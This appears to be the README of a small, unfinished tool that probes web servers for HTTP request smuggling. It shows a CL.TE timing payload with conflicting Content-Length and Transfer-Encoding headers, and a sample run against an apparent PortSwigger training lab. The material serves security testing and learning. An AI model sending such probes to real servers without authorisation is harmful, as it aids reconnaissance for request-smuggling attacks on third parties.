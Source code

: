 # smuggler.py

### # Summary

This tool is that send request to target server using simple payload for detecting http request smuggling.

But.. It is not finished yet, and is developing.


### # How to use

```
  -h, --help         show this help message and exit
  --url URL          Input url. --url http://test.com
  --agent            Generating random User-Agent. --agent
  --timeout TIMEOUT  Set timeout. Default: 7s. --timeout [time]
```


### # Result

##### # CL.TE timing tech
If CL.TE case, tool sends a payload like below.

```
POST {} HTTP/1.1\r\n
Host: {}\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
```

When server's response is timeout, server is vulnerable to http request smuggling.

Tool will show the result like below.
```
ubuntu:~/environment/git/smuggler.py (master) $ python3 smuggler.py --url https://ac9f1faa1f71d93b807b054000660013.web-security-academy.net/ --agent

                                         _                             
         ___ _ __ ___  _   _  __ _  __ _| | ___ _ __       _ __  _   _ 
        / __| '_ ` _ \| | | |/ _` |/ _` | |/ _ \ '__|     | '_ \| | | |
        \__ \ | | | | | |_| | (_| | (_| | |  __/ |     _  | |_) | |_| |
        |___/_| |_| |_|\__,_|\__, |\__, |_|\___|_|    (_) | .__/ \__, |
                             |___/ |___/                  |_|    |___/ 
                        by universe 

[*] Generating fake user-agent...
[*] Done.
[*] Sending to https://ac9f1faa1f71d93b807b054000660013.web-security-academy.net/
[*] Testing CL.TE...
     └───> HTTP/1.1 500 Internal Server Error
[*] Server using CLTE
>> 
====== payload ======
POST / HTTP/1.1
Host: ac9f1faa1f71d93b807b054000660013.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

0


======================

```


### # Reference 
https://portswigger.net/web-security/request-smuggling
https://github.com/gwen001/pentest-tools/blob/master/smuggler.py
